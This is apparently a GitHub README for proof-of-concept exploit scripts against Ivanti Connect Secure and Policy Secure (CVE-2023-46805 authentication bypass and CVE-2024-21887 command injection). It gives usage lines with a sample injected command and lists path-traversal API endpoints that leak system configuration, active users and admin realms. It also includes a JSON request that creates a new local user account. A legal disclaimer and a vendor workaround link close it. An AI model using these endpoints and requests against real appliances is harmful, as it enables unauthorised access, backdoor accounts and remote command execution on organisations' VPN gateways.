 # CVE-2023-46805
An authentication bypass vulnerability in the web component of Ivanti ICS 9.x, 22.x and Ivanti Policy Secure allows a remote attacker to access restricted resources by bypassing control checks.

usage: ./CVE-2023-46805.sh http(s)://fqdn:port
<br>./CVE-2023-46805.sh https://my.vpn.ip:443

![image](https://github.com/duy-31/CVE-2023-46805_CVE-2024-21887/assets/20819326/1a5a7b6d-fa45-47ce-bff6-98ecabfee3d6)

notes:
chmod +x CVE-2023-46805.sh
<br> require app curl + json_pp

result if vulnerable, you should see somes stuffs:

![image](https://github.com/duy-31/CVE-2023-46805_CVE-2024-21887/assets/20819326/89b01426-5fb4-4ef1-8fdd-265c948fa8f2)


# CVE-2024-21887
A command injection vulnerability in web components of Ivanti Connect Secure (9.x, 22.x) and Ivanti Policy Secure allows an authenticated administrator to send specially crafted requests and execute arbitrary commands on the appliance.

- run the poc (it will try the 2 entries points)

usage: ./CVE-2024-21887.sh http(s)://fqdn:port payload_cmd
<br>./CVE-2024-21887.sh https://my.vpn.ip:443 "touch /tmp/pwned"

result if vulnerable, you should see somes stuffs and your payload should be working:
![image](https://github.com/duy-31/CVE-2023-46805_CVE-2024-21887/assets/20819326/0452af59-20e3-40b2-a941-243fb9cdbbe9)


notes:
chmod +x CVE-2024-21887.sh
<br> require apps curl, xxd, tr & sed

# Juicy information

/api/v1/totp/user-backup-code/../../configuration/system/configuration
/api/v1/totp/user-backup-code/../../system/active-users


/api/v1/totp/user-backup-code/../../configuration/administrators/admin-realms/realm/Admin%20Users

-create an account
/authentication/auth-servers/authserver/System%20Local/local/users/user 

-H 'Content-Type:application/json' -d '{"change-password-at-signin": "false", "consoleaccess": "false", "enabled": "true", "fullname": "new user", "one-timeuse": "false", "password-cleartext": "new_password", "username": "login_user"}'

------
<br>Workaround/Fix: https://forums.ivanti.com/s/article/CVE-2023-46805-Authentication-Bypass-CVE-2024-21887-Command-Injection-for-Ivanti-Connect-Secure-and-Ivanti-Policy-Secure-Gateways?language=en_US

Kudos: https://attackerkb.com/topics/AdUh6by52K/cve-2023-46805/rapid7-analysis

------

more about me ;) https://www.linkedin.com/in/duy-huan-bui/

⚠️ Disclaimer:
IMPORTANT: This script is provided for educational, ethical testing, and lawful use ONLY. Do not use it on any system or network without explicit permission. Unauthorized access to computer systems and networks is illegal, and users caught performing unauthorized activities are subject to legal actions. The author is NOT responsible for any damage caused by the misuse of this script.

